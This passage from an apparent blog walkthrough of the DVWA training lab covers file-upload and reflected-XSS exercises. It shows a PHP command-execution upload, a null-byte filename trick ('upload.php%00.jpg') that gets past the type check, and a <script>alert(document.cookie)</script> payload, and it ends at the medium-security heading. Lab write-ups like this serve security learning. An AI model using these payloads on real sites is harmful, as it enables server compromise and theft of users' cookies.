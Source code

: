 ```
<?php

$cmd = system('uname -a');

echo $cmd;

?>
```

After uploading the file, the path where we can find it is conveniently provided:

*../../hackable/uploads/upload.php succesfully uploaded!*

Navigate to the file to see the command output:

```
192.168.127.128/dvwa/vulnerabilities/upload/../../hackable/uploads/upload.php
```

On medium security, the code checks if the file is a jpeg image and under a certain size:

```
if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000))
```

However, this can be easily bypassed by intercepting the request and modifying the filename. Here is what I had in Live HTTP Headers:

`Content-Disposition: form-data; name=“uploaded”; filename=“upload.php%00.jpg”`

And I modified it to:

`Content-Disposition: form-data; name=“uploaded”; filename=“upload.php”\r\n`

### XSS reflected

[**Overview**](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Reflected_XSS_Attacks)

> Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other web site. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server. Reflected XSS is also sometimes referred to as Non-Persistent or Type-II XSS.

![reflected xss](https://chousensha.github.io/images/dvwa/xss_reflected.png "reflected xss")

Low security:

```
<script>alert(document.cookie)</script>
```

Medium security:
